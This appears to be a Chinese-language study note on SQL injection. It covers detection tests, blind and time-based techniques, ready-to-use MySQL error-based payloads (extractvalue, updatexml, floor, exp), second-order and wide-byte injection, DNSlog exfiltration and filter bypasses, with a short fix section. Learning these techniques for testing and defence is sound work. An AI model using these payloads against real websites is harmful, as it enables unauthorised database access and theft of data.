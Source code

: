 掌握一些目标的信息后，有时候可以直接从那些信息里找到已知的漏洞，没有的话如果是黑盒就只能从这个网站上找着手点。

有数据交互的地方都是着手点。

注入漏洞本质上都是代码拼接。  
注入同时也需要一个输入和输出点，输入是执行你想要的命令，输出是要可以查看到结果，不然没有意义。

- SQL 注入： 

    在网页上输入：1，后端执行的代码是 select xxx,xxx from xxx where id = '1'。    
    如果开发没有做过滤，输入：1' union database() # ,就执行了你想要执行的数据库代码。  
    
    1. 判断是否存在 SQL 注入  

        1. 在原本要输入的参数后加单引号看是否会报错：
            id = 1'，这样执行语句为：  
                1. 数字型：```select xxx from xxx where id = 1'```  
                2. 字符型：```select xxx from xxx where id = '1''```
        2. 语句为真时是否也返回同样页面：
            id = '1' and '1' = '1
        3. 语句为假时页面是否报错：
            id = '1' and '1' = '2
	
        用数字运算判断是否是数字类型：
	    ?id=2-1
        用强制转换判断是否是字符类型：
        ?id=1a
	    
    2. SQL 注入类型  
    
        存在注入就可以用 union 语句进行注入，但是当页面不直接返回结果的时候就可以用『盲注』，如果第一步判断确实存在注入，但是无法执行获取数据的语句，考虑是其他数据库或者注入点在别的关键字后。  
        
        1. 布尔盲注  

            具体场景比如输入 ID 为 1 页面正常返回时，在后面加上一个判断，如果页面还是正常返回表示那个判断是正确的，
            如果页面和 ID 为 1 时不一样则表示这个判断是错误的：1' and length(database())>10 #  
            
        2. 时间盲注  

            如果返回的页面怎么都没有变化，可以试一下时间盲注，通过页面是否按照规定时间响应来确定这个判断是否正确：id=1 and if(length(database())=8,sleep(5),1)，除了 sleep，benchmark 函数也可以达到类似效果。
            
        3. 报错注入  
        
            - 联合查询受限且能返回错误信息的情况下，用报错注入会比盲注快捷方便一点，毕竟盲注需要请求很多次。    
	          原理主要是利用数据库的机制人为制造错误，记一下这4个常用的： 

                1. 数据类型溢出  

                    mysql5.5之前，整形溢出是不会报错的，根据官方文档说明out-of-range-and-overflow，只有版本号大于5.5.5时，才会报错。  
  
                    取反溢出：id=1' union select (!(select * from (select user())x) - \~0),2,3--+    

                    exp 溢出：id=1' union select (exp(~(select * from(select database())x))),2,3--+   

                2. xpath 语法错误    

                    MySQL 5.1.5版本中添加了对XML文档进行查询和修改的函数，分别是ExtractValue()和UpdateXML()，因此在mysql 小于5.1.5中不能用ExtractValue和UpdateXML进行报错注入。 
 
                    这两个函数都是要求第二个参数是符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里。  

                    id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))--+  

                    id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+    

                3. floor() 报错注入    

                    id=1' union Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a--+    

                4. 列名重复    

                    id=1'union select 1,2,3 from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x --+    
                    
        4. 二次注入  
        
            输入的内容被 addslashes 添加了反斜杠转义比如：1' -> 1\'，在这里无法造成注入漏洞，但是在数据库里的数据是没有反斜杠的，存到数据库里的依然是 1'，
            所以如果在页面另一个地方取出这个数据就可以造成注入漏洞。  
            
        5. 宽字节注入  
        
            需要数据库编码为 GBK，%df%5c 是一个繁体字，反斜杠编码是 %5c，如果传入的单引号被转义，可以加上 %df' 来注入单引号  
            
        6. cookie 注入、XFF 注入  
        
            注入点改变了而已  
            
        7. base 64 注入  
        
            编码后再注入  
            
        8. DNSlog 注入  
        
    	    在某些无法直接利用漏洞获得回显的情况下，但是目标可以发起DNS请求，这个时候就可以通过这种方式把想获得的数据外带出来。  
	        攻击者提交注入语句，让数据库把需要查询的值和域名拼接起来，然后发生DNS查询，我们只要能获得DNS的日志，就得到了想要的值。  
	        所以我们需要有一个自己的域名，然后在域名商处配置一条NS记录，然后我们在NS服务器上面获取DNS日志即可。  
	
    3. 绕过  
    
        大小写、双写、编码、内联注释 -> 有报错但是无法注入关键字：and、or 等
    
    4. 修复  
    
	    过滤危险字符
	    预编译->占位符
                
    5. 常见数据库特点  
    
        1. MySQL  
        
            1. 5.0 以下没有 information_schema 这个库，无法列表名等，只能暴力跑表名，这个库其中三张表：
                
                1. SCHEMATA：
		            SCHEMA_NAME，记录了数据库库名
                    
                2. TABLES：
                    TABLE_SCHEMA、TABLE_NAME，数据库库名和表名
                    
                3. COLUMNS
               	    TABLE_SCHEMA、TABLE_NAME、COLUMN_NAME，库名，表名，字段名 
                
            2. MySQL 5.5.53 前的版本没有配置 secure_file_prev，可以直接通过 SQL 语句读写文件，> 5.5.53 版本需要设置 secure_file_prev 为空，为 null 时不可读写。
	
    6. 判断数据库类型  
    
        1. id = x and user>0  
        
            1. ACCESS->错误里有"microsoft jet database"
            2. MSSQL->错误里有"SQL server"  
            
        2. /* 注释判断
	
    7. base 64 注入
    	

